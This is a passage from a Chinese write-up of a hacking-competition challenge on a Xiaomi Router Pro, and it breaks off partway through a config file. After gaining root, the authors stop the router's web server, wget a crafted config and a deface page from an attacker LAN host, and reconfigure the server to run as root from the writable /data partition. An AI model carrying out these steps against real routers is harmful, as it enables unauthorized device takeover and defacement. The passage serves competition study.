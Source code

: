 即可实现针对小米路由器的RCE，具体针对这个赛题，我们在拿到具有root权限的Shell后，发现小米路由器Pro的大部分分区都已经硬件完成的只读，只有`\data`和`\tmp`两个区域是可读写的，而路由器的登录页面存在于`\www`目录，那如何成功修改我们的黑页呢？

我们采取的手段是强行停止路由器的HTTP服务器，重新书写配置文件，将重新运行的路由器HTTP服务器默认目录指向我们布置在`\data`分区的黑页，即可完成最后的黑页修改

关闭web服务：

```
/usr/sbin/sysapihttpd -c /etc/sysapihttpd/sysapihttpd.conf  -s stop
```

下载test.conf与index.html：

```
wget http://192.168.31.62:60080/test.conf &amp;&amp; wget http://192.168.31.62:60080/index.html
```

我们jbgg编写的conf：

```
user root root;
worker_processes  1;
worker_rlimit_nofile 512;
worker_priority -5;
daemon on;

error_log stderr warn;


events `{`
  use epoll;
  worker_connections  256;
`}`

http `{`
  default_type  application/octet-stream;


  log_format main '"$server_addr"\t"$host"\t"$remote_addr"\t"$time_local"\t"$request_method $request_uri"\t"$status"\t"$request_length"\t"$bytes_sent"\t"$request_time"\t"$sent_http_ MiCGI_Cache_Status"\t"$upstream_addr"\t"$upstream_response_time"\t"$http_referer"\t"$http_user_agent"';

  access_log off;

  sendfile    on;
  #tcp_nopush   on;

  server_tokens off;

  keepalive_timeout  0;

  client_max_body_size 0;

  fastcgi_connect_timeout 300;
  fastcgi_read_timeout 300;
  fastcgi_send_timeout 300;
  #fastcgi_buffering off;
  fastcgi_buffer_size 64k;
  fastcgi_buffers   4 32k;
  fastcgi_busy_buffers_size 64k;
  fastcgi_temp_file_write_size 64k;

  server `{`
    listen 80;
    server_name  _;
    access_log  off;

    log_not_found off;
```